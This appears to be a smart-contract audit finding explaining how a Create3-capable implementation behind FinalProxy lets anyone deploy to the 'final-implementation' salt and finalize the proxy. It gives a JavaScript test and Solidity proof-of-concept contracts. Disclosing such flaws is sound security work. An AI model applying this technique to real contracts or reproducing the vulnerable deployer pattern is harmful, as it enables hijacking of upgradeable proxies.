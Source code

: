 The issue is that if the implementation supports deploying with `Create3`, a user could use the salt (`keccak256('final-implementation')`) and deploy a final implementation without calling `finalImplementation`, since `Create3` only uses `msg.sender` and `salt` to determine the address.

`InterchainTokenService`, which is the only implementation in scope using `FinalProxy`, does however not appear to be vulnerable to this, since all the salts used for deploys are calculated, not supplied. But future implementations/other contracts using `FinalProxy` might be.

### PoC

Test in `proxy.js`:
```javascript
        it('vulnerable FinalProxy implementation', async () => {
            const vulnerableDeployerFactory = await ethers.getContractFactory('VulnerableDeployer', owner);
            const maliciousContractFactory = await ethers.getContractFactory('MaliciousContract', owner);
            const vulnerableImpl = await vulnerableDeployerFactory.deploy().then((d) => d.deployed());

            const proxy = await finalProxyFactory.deploy(vulnerableImpl.address, owner.address, '0x').then((d) => d.deployed());
            expect(await proxy.isFinal()).to.be.false;

            const vulnerable = new Contract(await proxy.address, VulnerableDeployer.abi, owner);

            // steal final-implementation salt
            const salt = keccak256(toUtf8Bytes('final-implementation'));

            // someone deploys to the final-implementation address
            const bytecode = await maliciousContractFactory.getDeployTransaction().data;
            await vulnerable.vulnerableDeploy(salt,bytecode);

            // proxy is final without calling finalUpgrade
            expect(await proxy.isFinal()).to.be.true;
            const malicious = new Contract(await proxy.address, MaliciousContract.abi, owner);
            expect(await malicious.maliciousCode()).to.equal(4);
        });
```

`VulnerableDeployer.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { Create3 } from '../deploy/Create3.sol';

contract MaliciousContract {

    function setup(bytes calldata params) external {}
    
    function maliciousCode() public pure returns(uint256) {
        return 4;
    }
}

contract VulnerableDeployer {

    function setup(bytes calldata params) external {}
    
    function vulnerableDeploy(bytes32 salt, bytes memory bytecode) public returns(address ) {
        return Create3.deploy(salt, bytecode); 
    }
}
```
